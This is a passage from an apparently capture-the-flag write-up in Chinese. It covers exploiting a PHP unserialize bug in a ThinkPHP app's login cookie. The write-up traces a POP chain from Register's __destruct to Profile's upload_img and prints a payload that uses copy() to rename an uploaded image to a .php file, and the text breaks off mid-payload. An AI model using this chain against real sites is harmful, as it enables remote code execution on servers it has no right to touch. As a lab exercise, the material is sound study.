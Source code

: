 ```php
        if(!empty($this->profile) && !empty($this->profile_db)){
            if(empty($this->profile_db['img'])){
                return 0;
            }else{
                return 1;
            }
        }
    }

    public function logout(){
        cookie("user",null);
        $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
        $this->redirect($curr_url,302);
        exit();
    }

    public function __get($name)
    {
        return "";
    }

}
```

login_check 方法会对 cookie 进行反序列化, 测试用已知的 rce 去打都失败了

但是 Register.php 中存在 \_\_destruct, 猜测是要从这里作为入口点自己构造 pop 链

\_\_destruct 访问 checker 的 index 方法, 之后跳转到 Profile 的 \_\_call, 其中的 `{$name}` 为可变变量的形式

然后通过该方法最终执行到 upload_img

这里有意思的是我们并不是要利用 upload_img 来上传 php 文件, 而是要通过这个方法修改服务器上文件的文件名

首先绕过方法中的前面几个 if 判断, 然后利用反序列化来操纵 filename 和 filename_tmp 两个属性, 最终通过 copy 函数修改文件名

payload 如下

```php
<?php

namespace think{
  class Controller{
  }
}

namespace app\web\controller{

  use think\Controller;

  class Profile extends Controller{

    public $checker = false;
    public $ext = true;
    public $filename_tmp = '../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/fb5c81ed3a220004b71069645f112867.png';
    public $filename = '../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/a.php';
    public $index = 'upload_img';

  }

  // class Profile extends Controller{

  //   public $checker = false;
  //   public $ext = true;
  //   public $except = array(
  //     'index' => 'upload_img',
```